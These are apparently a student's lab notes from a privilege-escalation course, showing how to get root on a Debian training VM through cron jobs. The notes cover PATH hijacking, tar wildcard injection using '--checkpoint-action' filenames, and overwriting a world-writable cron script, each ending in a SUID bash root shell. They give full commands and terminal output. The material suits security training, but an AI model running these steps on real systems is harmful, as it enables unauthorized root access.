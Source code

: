 
Cron jobs are like scheduled tasks.  Things that have been set up to run for a specific time period, at a specific interval.  Payloads all the things has a good bit of stuff on this as well.

You also have things called Systemd timers.  They are pretty must the same thing.  You can check those with this command.

`systemctl list-timers --all`

Scheduling a backup to run is an example of a cron job.

`cat /etc/crontab`  - This will give you a good bit of info about different things running.

```
TCM@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Here, we have the output.  Let's look at some exploits.  The bottom two, run every minute, indicated by the all asterisk.  


#### Via Cron Paths

`PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

This is the order of items being checked for a command if it's not specifically noted.  I.e., with the bottom two listed, `overwrite.sh` would follow the PATH, left to right.  `compress.sh` is going to follow it's coded path of `/usr/local/bin/` and bypass the PATH variable altogether.

`ls -la /home/user` here will show that there is no `overwrite.sh` so we can make one and place it there and the system will run it as root every minute.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh`

And then....

`chmod +x /home/user/overwrite.sh`

And then give it a couple minutes to make sure that it ran and go check where you put the bash to see if it updated according to the date on the file.

Once you check the file (`ls -la /tmp` for this example), then run it.

```
TCM@debian:~$ /tmp/bash -p
bash-4.1# whoami
root
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```


#### Cron Wildcards

Here we're going to look at the bottom most line job.  So cat out the script to see what it does.

```
TCM@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

Since there's a wildcard at the end of the last line (`*`), we can abuse that.  Upon checking it with `ls -la`, we find that we have read only access.

From the `/home/user` folder we can create a script.

```
TCM@debian:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
TCM@debian:~$ chmod +x runme.sh 
TCM@debian:~$ ls
libcalc.c  myvpn.ovpn  overwrite.sh  runme.sh  tools
TCM@debian:~$ touch /home/user/--checkpoint=1
TCM@debian:~$ touch /home/user/--checkpoint-action=exec=sh\runme.sh
TCM@debian:~$ ls
--checkpoint=1  --checkpoint-action=exec=shrunme.sh  libcalc.c  myvpn.ovpn  overwrite.sh  runme.sh  tools
TCM@debian:~$ /tmp/bash -p
bash-4.1# whoami
root
```

Note: Writeup notes had this 7th line code working with `exec=sh\ runme.sh` as opposed to `exec=sh\runme.sh`.  Both may work but may want to try both.

This is kind of tar specific but basically because of the asterisk its taking the two checkpoints and running them as well.  When it does the `action` it creates that bash program as root and has it run as root.

#### Cron File Overwrites

`ls -la /usr/local/bin/overwrite.sh`

When we run this we see that everyone has read/write access to that shell file.  Because of this, we can actually overwrite the `overwrite.sh` file.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh`

This command will actually append (`>>`) the command part onto the end of overwrite.sh